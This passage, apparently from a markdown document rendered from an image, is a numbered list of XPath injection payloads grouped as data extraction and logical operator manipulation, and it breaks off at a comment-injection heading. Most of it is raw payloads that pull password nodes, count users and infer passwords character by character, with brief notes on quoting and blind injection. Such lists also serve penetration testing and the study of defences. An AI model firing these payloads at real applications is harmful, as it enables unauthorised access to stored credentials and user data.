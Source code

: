 > **Assumption**: These payloads work when the XPath query uses single quotes for string delimiters. Applications using double quotes require different payloads.

---

### Category 2: Data Extraction (15 examples)

These payloads extract sensitive information:

```
16. ' or 1=1]|//password%00
17. ') or 1=1]|//user/password%00
18. ' or count(//user)>0 or ''='
19. '] | //password%00
20. ') | //password%00
21. ' or substring(//user[1]/password,1,1)='a
22. ' or substring(//user[1]/password,1,1)='s
23. ' and substring(//user[1]/password,1,1)='s
24. '] | //user[position()=1]/child::node()%00
25. ') | //user[position()=1]/*%00
26. ' or text()='*
27. ') or name()='username
28. ' or count(/child::node())>0 or ''='
29. ') or string-length(//user[1]/password)>5 or ('
30. ' or //user[contains(password, 's')]
```

> **Assumption**: The attacker knows or can guess the XML structure. In blind XPath injection, attackers use boolean-based or time-based techniques to infer the structure.

---

### Category 3: Logical Operator Manipulation (10 examples)

These payloads manipulate query logic:

```
31. ' and '1'='2
32. ' and false() or '1'='1
33. ') and false() or true() or ('
34. ' or not(false()) or ''='
35. ' and (1=1) or '1'='1
36. ') and (1=2) or (1=1) or ('
37. ' or (1 div 0) or ''='
38. ' or boolean(1) or ''='
39. ' and string-length(//user[1]/username)>0 or ''='
40. ') and count(//user)>0 or count(//user)>0 or ('
```

---

### Category 4: Comment Injection (5 examples)

These payloads use XML/XPath comments:

